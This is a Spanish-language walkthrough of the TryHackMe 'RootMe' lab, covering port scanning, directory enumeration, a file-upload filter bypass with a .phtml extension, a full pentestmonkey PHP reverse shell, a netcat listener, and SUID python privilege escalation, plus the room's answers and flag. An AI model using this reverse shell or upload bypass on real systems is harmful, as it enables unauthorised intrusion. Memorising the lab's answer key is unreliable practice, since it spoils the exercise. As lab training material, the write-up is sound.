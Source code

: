Empezamos con la fase de reconocimiento:

``` bash
❯ sudo nmap -p- -Pn --min-rate 5000 10.10.31.200
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 16:57 CEST
Nmap scan report for 10.10.31.200
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

con esto ya podemos responder la primera pregunta de tryhackme:

**Scan the machine, how many ports are open?**
Respuesta: **2**

ecaneamos los servicios de los puertos en mas profundidad con nmap:

``` bash
❯ nmap -p22,80 -sCV 10.10.181.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 18:24 CEST
Nmap scan report for 10.10.181.31
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

y con este escaner contestamos mas preguntas de tryhackme:

**What version of Apache is running?** 
Respuesta: **2.4.29**
**What service is running on port 22?** 
Respuesta: **ssh**

hacemos una enumeracion de directorios con gobuster en el servicio http:

```bash
❯ gobuster dir -u http://10.10.181.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.181.31
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.181.31/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.181.31/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.181.31/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.181.31/panel/]
Progress: 30428 / 220561 (13.80%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 30478 / 220561 (13.82%)
===============================================================
Finished
===============================================================
```

obtenemos los directorios de :
/upload
/panel

este ultimo es la respuesta a la siguiente pregunta:

**What is the hidden directory?**
Respuesta: **/panel/**

en este directorio encontramos una funcionalidad para subir archivos por lo que vamos a intentar si subiendo una reverse shell en php nos lo interpreta:

![uploadRootMe.png](/img/uploadRootMe.png)

una herramienta para obtener una reverse shell es [revshells](https://www.revshells.com/):

utilizamos la opcion de la reverse shell de pentestMonkey:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'IP TARGET';
$port = NUM_PUERTO;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

cambiamos la ip target y num puerto para decuarlo a nuestro caso, con nano creamos el archivo php y lo subimos a la web:


![](uploadFailrootme.png)

no lo tendremos tan facil, intentaremos cambiar la extension php a ver si alguna cuela:
en el directorio uploads vemos nuestras subidas:

![Shellrootme.png](/img/Shellrootme.png)

tras unos intentos en mi caso me funciono la subida con la extension .phtml
nos ponemos a la escucha en net cat y clickamos la shell subida.

Con esto obtenemos acceso:
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.181.31] 45778
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:52:21 up 30 min,  0 users,  load average: 0.00, 0.00, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ 
$ whoami
www-data
$ hostname
rootme
$ 
```

hacemos una busqueda a los permisos SUID y encontramos que tenemos SUID para el binario python:
vamos a la web de gtfobins para ver como elevar los privilegios y aplicamos el metodo:

![privrootme.png](/img/privrootme.png)

con esto obtenemos root.

por ultimo buscamos el archivo user.txt en el sistema y lo visualizamos para contestar a la ultima pregunta de tryhackme:
![flagrootme.png](/img/flagrootme.png)

**user.txt**
Respuesta: **THM{y0u_g0t_a_sh3ll}**

